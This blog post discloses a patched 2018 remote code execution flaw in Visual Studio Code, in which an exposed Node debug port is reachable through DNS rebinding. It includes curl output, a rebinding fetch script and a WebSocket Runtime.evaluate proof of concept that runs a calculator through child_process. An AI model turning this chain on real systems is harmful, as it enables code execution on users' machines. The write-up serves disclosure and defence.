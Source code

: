 ```yaml
---
layout:	post
title:	"Visual Studio Code silently Fixed a Remote Code Execution Vulnerability"
date:	2018-03-16
show_excerpt: true
image: /img/p07rMuQGd-Hgf4u_NGH91Q.png
---
```


I occasionally noticed that Visual Studio Code was listening on a fixed TCP port 9333. After upgrading to 1.19.3, it's gone.

```
➜ ~ netstat -an | grep 9333
tcp4 0 0 127.0.0.1.9333 *.* LISTEN
```

Looks like it's a bug that affects VSCode 1.19.0~1.19.2. Extension process always run in debug mode, because of an accidentally added `--inspect` argument.

* [Make sure extension don't accidentally run in 'debug'-mode · Issue #39569 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/39569)
* [Clear — inspect* / — debug* arg when starting extension host · Issue #40443 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/40443)

Actually this is not just a bug. **It is exploitable.**

<!-- more -->

I guess he's found the same problem:

[Vulnerability in 1.19.x · Issue #42116 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/42116)

To reproduce the bug, download an older release:

* <https://vscode-update.azurewebsites.net/1.19.2/win32-x64/stable>
* <https://vscode-update.azurewebsites.net/1.19.2/darwin/stable>

Exploiting this port is quite simple. **Since it's a debug port you can absolutely inject arbitrary code into debuggee context**. Start Chrome browser an navigate to chrome://inspect

![Chrome's built-in javascript debugging tool](/img/C-3RYPLdCVdXfVA7soA53Q.png)

Click "Configure" and add localhost:9333 to the list:

![Add target](/img/E2noAEuWmwYbTW3mkyOluQ.png)

Now click inspect to inject javascript into VS Code process:

![Remote targets shown in Chrome](/img/uY1Ozt9Gw2lVHgTdDb121Q.png)

And profit!

![code execution in node.js](/img/p07rMuQGd-Hgf4u_NGH91Q.png)

To weaponize this, we need to interact with devtools protocol from a remote web page. The protocol is based on HTTP and WebSocket. Check out the spec here:

* <https://github.com/ChromeDevTools/devtools-protocol>
* <https://chromedevtools.github.io/devtools-protocol/>

First, get the session id from <http://127.0.0.1:9333/json/list>

```
➜ ~ curl -v localhost:9333/json -H "Host: dns.rebind"
* Trying ::1...
* TCP_NODELAY set
* Connection failed
* connect to ::1 port 9333 failed: Connection refused
* Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 9333 (#0)
> GET /json HTTP/1.1
> Host: dns.rebind
> User-Agent: curl/7.54.0
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Type: application/json; charset=UTF-8
< Cache-Control: no-cache
< Content-Length: 649
<
[ {
 "description": "node.js instance",
 "devtoolsFrontendUrl": "chrome-devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9333/c5408ce2-6f06-4a7e-a950-395d95c6804f",
 "faviconUrl": "<https://nodejs.org/static/favicon.ico>",
 "id": "c5408ce2-6f06-4a7e-a950-395d95c6804f",
 "title": "/private/var/folders/4d/1_vz_55x0mn_w1cyjwr9w42c0000gn/T/AppTranslocation/EE69BB42-2A16-45F3-BB98-F6639CB594B1/d/Visual Studio Code.app/Contents/Frameworks/Code Helper.app/Contents/MacOS/Code Helper",
 "type": "node",
 "url": "file://",
 "webSocketDebuggerUrl": "ws://127.0.0.1:9333/c5408ce2-6f06-4a7e-a950-395d95c6804f"
} ]
* Closing connection 0
```

See the webSocketDebuggerUrl? That's all we need to attach the debugger.

It's a problem to fetch response from cross origin webpage. [Tavis Ormandy](https://medium.com/u/a82703d95ec2) has already shown some cases through dns-rebinding: <https://bugs.chromium.org/p/project-zero/issues/list?can=1&q=dns+rebinding&colspec=ID+Type+Status+Priority+Milestone+Owner+Summary&cells=ids>

![A case shows that a local port can be access from remote web page](/img/gV1f6shbOrzgAeQMmADQXw.png)

So an attacker needs to setup a DNS server to alternatively resolve an malicious domain between 127.0.0.1 and the actual web content ip address, with a short TTL. First the browser access the exploit page, then wait for a timeout for the browser to invalidate the previous dns record, so we can bypass same origin policy to read from `evil.com:9333/json/list`, which is actually from localhost.

For those who are interested in DNS rebinding, check these out:

* <https://github.com/ctfs/write-ups-2016/tree/master/0ctf-2016/web/monkey-4>
* <https://lock.cmpxchg8b.com/rebinder.html>
* <https://github.com/lorenzog/dns-rebinding>

Some people asked how long does it take to alter the DNS to 127.0.0.1. During my experiment, I borrow the dns server from <https://lock.cmpxchg8b.com/rebinder.html> and set a 120s script timeout before `XMLHttpRequest` / `fetch`, and it just worked.

```js
function log(msg) {
  const pre = document.createElement('pre');
  pre.appendChild(document.createTextNode(msg));
  document.body.appendChild(pre);
}

const interval = 120 * 1000;
async function main() {
  let list;
  try {
    list = await fetch('/json').then(r => r.json());
  } catch(e) {
    // retry
    log('retry');
    return setTimeout(main, interval);
  }
  const item = list.find(item => item.url.indexOf('file:///') === 0);
  if (!item) return log('invalid response');
  log('url:' + item.webSocketDebuggerUrl);
  // exploit(url);
}
main()
```

Now talk to the WebSocket server to inject the 2nd stage payload.

WebSocket supports cross domain unless the server explicitly checks `Origin:` header upon connection. So communicating with `webSocketDebuggerUrl` does not require any additional dns trick, except that `https://` page can't connect to `ws://`. Finally, call  `Runtime.evaluate` to inject script.

Assume the WebSocket server url is __ws://127.0.0.1:9333/c21b0fe3-96a5-4fbc-9687-5e6c8c91a3e7__, run the following script in any (non-https) webpage to see a calculator:

```js
function exploit(url) {
  function nodejs() {
    const cmd = {
      darwin: 'open /Applications/Calculator.app',
      win32: 'calc',
      linux: 'xcalc',
    };
    process.mainModule.require('child_process').exec(cmd[process.platform])
  };
  const packet = {
    "id": 13371337,
    "method": "Runtime.evaluate",
    "params": {
      "expression": `(${nodejs})()`,
      "objectGroup": "console",
      "includeCommandLineAPI": true,
      "silent": false,
      "contextId": 1,
      "returnByValue": false,
      "generatePreview": true,
      "userGesture": true,
      "awaitPromise": false
    }
  };

  const ws = new WebSocket();
  ws.onopen = () => ws.send(JSON.stringify(packet));
  ws.onmessage = ({ data }) => {
    if (JSON.parse(data).id === 13371337)
      ws.close()
  };
  ws.onerror = err => console.error('failed to connect');
}
exploit('ws://127.0.0.1:9333/c21b0fe3-96a5-4fbc-9687-5e6c8c91a3e7')
```

Compared to [the recent Electron bug](https://medium.com/0xcc/electrons-bug-shellexecute-to-blame-cacb433d0d62), the later requires user interaction and only affects Windows. If you are on these versions, just upgrade. Anyways, the debugging utility will still be enabled if you manually launch VSCode command with `--inspect=[port]`. Better use an alternative random port than 9333 to avoid potential exploit.

P.S.

For any electron based desktop app, there's a `--remote-debugging-port` switch.

**Update 2018-03-30:**

Node.js has officially fixed the remote debugging protocol issue

[March 2018 Security Releases - Node.js](https://nodejs.org/en/blog/vulnerability/march-2018-security-releases/#node-js-inspector-dns-rebinding-vulnerability-cve-2018-7160)